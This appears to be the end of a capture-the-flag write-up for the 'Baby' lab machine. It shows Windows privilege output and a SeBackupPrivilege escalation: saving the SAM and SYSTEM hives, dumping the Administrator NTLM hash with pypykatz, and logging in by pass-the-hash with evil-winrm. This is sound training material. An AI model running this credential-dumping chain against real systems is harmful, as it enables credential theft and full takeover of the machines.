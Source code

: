 ```bash
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.
```
The important part here is that we are part of the groups SeBackupPrivilege and SeRestorePrivilege. Following the steps in this article https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/, we can perform the following commands:

```bash
Part 1
cd c:\
mkdir Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system

Part 2

cd Temp
download sam
download system

Part 3

pypykatz registry --sam sam system

...
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8d992faed38128ae85e95fa35868bb43::
```

Now, we have the NTLM Hash, which allows us to log in. We can do it as follows:

```bash
evil-winrm -i 10.10.64.243 -u 'Administrator' -H '8d992faed38128ae85e95fa35868bb43'
```

With this, we can find the root flag VL{b8512958}.

## Conclution 

In conclusion, "Baby" on the VunLab environment holds significant offensive value. This machine offers an excellent opportunity to enhance skills in reconnaissance, enumeration, and exploitation in Windows environments, particularly in the context of Active Directory.
